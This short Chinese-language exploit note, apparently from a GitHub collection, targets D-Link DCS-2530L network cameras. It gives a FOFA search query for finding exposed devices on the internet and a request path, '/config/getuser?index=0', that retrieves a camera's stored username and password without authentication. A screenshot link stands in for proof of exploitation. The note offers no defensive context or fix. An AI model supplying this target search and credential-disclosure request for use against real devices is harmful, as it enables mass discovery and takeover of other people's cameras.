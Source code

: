 ### 描述
fofa搜：app="D_Link-DCS-2530L"  
拼接路径：/config/getuser?index=0

### 利用
![Snipaste_2021-04-12_10-20-19.png](https://i.loli.net/2021/04/12/Qp8WEFPsRVgrcuI.png)
